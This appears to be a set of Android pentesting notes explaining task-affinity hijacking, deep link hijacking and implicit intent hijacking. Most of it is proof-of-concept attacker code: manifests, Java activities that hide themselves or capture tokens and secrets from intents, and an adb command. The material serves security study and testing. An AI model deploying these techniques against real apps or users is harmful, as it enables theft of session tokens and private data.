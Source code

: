 # Content
- [Task Hijacking / Task Affinity Attack](#task-hijacking--task-affinity-attack)
- [Deep Links Hijacking](#deep-links-hijacking)
- [Hijack Implicit Intents](#hijack-implicit-intents)

# Task Hijacking / Task Affinity Attack
based on [singleTask mode](https://developer.android.com/guide/components/activities/tasks-and-back-stack#TaskLaunchModes) this gives 3 options for android os when an activity with this mode called :

- **If the Activity instance already exists:**
  - the system routes the intent to the existing instance through a call to its `onNewIntent()` method, rather than creating a new instance. Meanwhile all of the other activities on top of it are destroyed. 

- **If the Activity is newly created:**
  - The system creates the activity at the root of a new task
  - or locates the activity on an existing task with the same affinity

the affinity of an app is usually the package name, an attacker can exploit the last behavior to push the new created activity in the same stack of the hacker's activity

## Attack
### Victim App
notice the `android:launchMode="singleTask"`
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.victim.app">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:logo="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SuperSecureApp">
        <activity android:name=".LoggedIn"></activity>
        <activity android:name=".MainActivity" android:launchMode="singleTask">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```


### Atacker App
- made the `taskAffinity` with the victim package name 
- `android:excludeFromRecents` ensures the task is not listed in the recent apps, to hide the attacker's app.
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.hacker.app"
    tools:ignore="ExtraText">
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.AttackerApp"
        android:taskAffinity="com.victim.app">
        <activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>

```

```java
package com.hacker.app;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```


### References
- https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html
- https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/android-task-hijacking
- https://blog.dixitaditya.com/android-task-hijacking?x-host=blog.dixitaditya.com

# Deep Links Hijacking 
the [deep link](https://developer.android.com/training/app-links/deep-linking) are URIs of any scheme that take users directly to a specific part of your app. 

the Android system tries each of the following actions, in sequential order, until the request succeeds:
- Open the user's preferred app that can handle the URI, if one is designated.
- Open the only available app that can handle the URI.
- Allow the user to select an app from a dialog.

if there a website using a deep link to send senstive data to it we can hijack this deeplink by creating an app using that listen to the same deeplink

## Attack
### Victim App
- AndroidMainfest
```xml
  <intent-filter>
    <action android:name="android.intent.action.VIEW"></action>
    <category android:name="android.intent.category.DEFAULT"></category>
    <category android:name="android.intent.category.BROWSABLE"></category>
    <data android:scheme="holiday" > </data>
</intent-filter>
```

### Atacker App
- java code
```java
setContentView(R.layout.activity_sniif); // Ensure the layout file name is correct
Intent intent = getIntent();
Uri uri = intent.getData();
TextView textView = findViewById(R.id.textViewHacked);
if (uri != null) {
  String uriString = uri.toString();
  textView.setText("hacked your account: "+uriString);
} else {
  textView.setText("No Uri data received");
}
```
- adb shell
```shell
am start -a android.intent.action.VIEW -d holiday://example.com?token=123456789
```

### look also for applinks and weblinks


# Hijack Implicit Intents
Hijacking implicit intents involves intercepting and handling intents meant for other apps by declaring matching intent filters in your app's manifest.

### Vicitm App
```xml
<activity
    android:name=".Auth"
    android:exported="true">
    <intent-filter>
        <action android:name="com.app.Vicitm.ATTACK_ME" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```


### Atacker App
```xml
<activity
    android:name=".HijackActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="com.app.Vicitm.ATTACK_ME" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```
- HijackActivity 
```java
hijcakTextView = findViewById(R.id.hijackTextView) ;
Intent I = getIntent();
String secret = I.getStringExtra("secret") ;
hijcakTextView.setText(secret);
```
